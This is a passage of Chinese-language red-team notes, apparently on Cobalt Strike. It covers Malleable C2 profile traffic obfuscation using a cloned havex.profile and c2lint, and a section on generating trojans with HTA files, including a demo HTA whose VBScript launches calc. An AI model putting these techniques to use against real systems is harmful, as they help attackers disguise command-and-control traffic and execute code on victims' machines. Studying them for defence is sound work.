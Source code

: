 修改teamserver中的keytool命令

![image-20231116163816664](../images/image-20231116163816664.png)

Malleable-C2-Profile流量混淆

```bash
# 下载原始profile文件,在Malleable-C2-Profiles/APT/havex.profile
git clone https://github.com/rsmudge/Malleable-C2-Profiles.git
```

```bash
# 检查profile文件
/c2lint ./Malleable-C2-Profiles/APT/havex.profile
```







# Attacks（攻击）

## Packages（生成木马）

### HTML Application Attack（HTA Attack）

> HTA文件是一种称为HTML应用程序的文件格式，它是基于 HTML、CSS、VBScript的技术。
>
> HTA文件可以在Windows操作系统上运行，通过双击HTA文件或使用命令行运行mshta.exe来启动。
>
> 其中HTML 和 CSS 控制样式，而VBScript可以用来执行系统命令。

**Demo代码**

```vbscript
<html>
    <head>
        <title>tetsa</title>
        <style>
            h1 {
                color: red;
            }
        </style>
    </head>
    <body>
        <h1>Hello</h1>
        <a href=#>test link</a>

        <script language="VBScript">
            CreateObject("Wscript.Shell").Run("calc")
        </script>

    </body>
</html>
```
